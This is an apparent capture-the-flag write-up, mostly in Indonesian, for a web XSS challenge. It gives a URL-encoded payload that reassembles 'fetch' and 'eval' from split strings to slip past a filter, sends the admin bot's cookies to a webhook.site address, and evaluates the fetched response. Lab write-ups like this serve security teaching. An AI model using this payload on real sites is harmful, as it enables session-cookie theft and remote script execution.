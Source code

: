 # Challenge Name: No Fetch?!?!

![Category: Website](https://img.shields.io/badge/Category-challenge-lightgrey.svg)
![Point: 20](https://img.shields.io/badge/Score-20-brightgreen.svg)

## Description

The easest XSS ever! But wait... no fetch? Visit the challenge at http://ao.bliu.tech:9090.

The admin bot for this challenge is at https://admin-bot.acmcyber.com/no-fetch. The flag is in the admin bot's cookies.

## Attached Files

\-

## Solution

disini website tersebut dijelaskan di deskripsi adalah XSS, kita harus mendapatkan cookie tersebut dengan fetch tapi kita tidak boleh memakai fetch

![image1](https://cdn.discordapp.com/attachments/1080821742722883684/1080830828180934757/Screen_Shot_2023-03-02_at_19.35.36.png)

kita melakukan bypass fetch dengan payload

```
<img+src%3D"x"+onerror%3D"top%5B%60fet%60%2B%60ch%60%5D%28%27https%3A%2F%2Fwebhook.site%2F7efc8b25-6507-43e7-a16a-54236fb0bd58%3Fcookie%3D%27%2Bdocument.cookie%2C+%7Bcredentials%3A+%27include%27%7D%29.then%28response+%3D>response.text%28%29%29.then%28%28body%29+%3D>%7Btop%5B%60ev%60%2B%60al%60%5D%28body%29%3B%7D%29">%0D%0A
```

ternyata website tersebut dengan request POST di website bot mintanya id Post teresbut, setelah di bantu oleh mas [Dimas Maulana](https://github.com/dimasma0305).
bisa mengguakan request GET

```
http://ao.bliu.tech:9090/post?content=%3Cimg+src%3D%22x%22+onerror%3D%22top%5B%60fet%60%2B%60ch%60%5D%28%27https%3A%2F%2Fwebhook.site%2F7efc8b25-6507-43e7-a16a-54236fb0bd58%3Fcookie%3D%27%2Bdocument.cookie%2C+%7Bcredentials%3A+%27include%27%7D%29.then%28response+%3D%3Eresponse.text%28%29%29.then%28%28body%29+%3D%3E%7Btop%5B%60ev%60%2B%60al%60%5D%28body%29%3B%7D%29%22%3E%0D%0A
```

setelah dikirim di web botnya akan mendapatkan flag tersebut

![image2](https://cdn.discordapp.com/attachments/1080821742722883684/1080833122200993823/Screen_Shot_2023-03-02_at_19.44.36.png)

---

[Back to home](/2023/After%20Dark%20Winter/)
